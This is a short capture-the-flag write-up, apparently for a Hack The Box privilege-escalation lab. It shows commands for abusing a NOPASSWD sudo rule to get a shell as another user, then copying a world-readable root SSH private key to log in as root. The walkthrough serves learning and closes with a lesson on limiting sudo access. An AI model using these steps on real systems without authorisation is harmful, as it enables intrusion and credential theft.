 
# HTB Getting Started: Privilege Escalation

In this challenge, we are provided with SSH credentials for `user1` and a non-default port. The goal is to:

1. Laterally move to `user2` and read the flag at `/home/user2/flag.txt`
2. Escalate privileges to `root` and retrieve the final flag at `/root/flag.txt`

---

## Step 1: Login via SSH

We start by logging into the server using the provided credentials and port:

```bash
ssh user1@<IP> -p <PORT>
```

Once logged in, running `ls` may fail due to permission restrictions in the home directory. Instead, we change to the root directory and navigate manually:

```bash
cd /
cd home/user2
```

Here, we find `flag.txt`, but it’s readable only by `user2`.

---

## Step 2: Lateral Movement to `user2`

We check for commands that `user1` can run as another user without a password:

```bash
sudo -l
```

We discover that `user1` can run `/bin/bash` as `user2`:

```bash
User user1 may run the following commands on hostname:
    (user2) NOPASSWD: /bin/bash
```

We switch to `user2` using:

```bash
sudo -u user2 /bin/bash
```

Now, we can access the flag:

```bash
cat /home/user2/flag.txt
```

Flag: `REDACTED`

---

## Step 3: Privilege Escalation to Root

Next, we try to access the `/root` directory:

```bash
cd /root
```

Surprisingly, the `.ssh` folder is accessible:

```bash
cd .ssh
ls -la
```

We find that one of the private keys is world-readable. We copy this key to our local machine and set proper permissions:

```bash
chmod 600 root_id_rsa
```

Then, we SSH into the machine as `root` using the key:

```bash
ssh -i root_id_rsa root@<IP> -p <PORT>
```

Once logged in as root:

```bash
cat /root/flag.txt
```

Flag: `REDACTED`

---

## Summary

- Used `sudo` permissions to move from `user1` to `user2`.
- Found a world-readable root private key and used it to SSH as root.
- I learnt the importance of limiting `sudo` access.
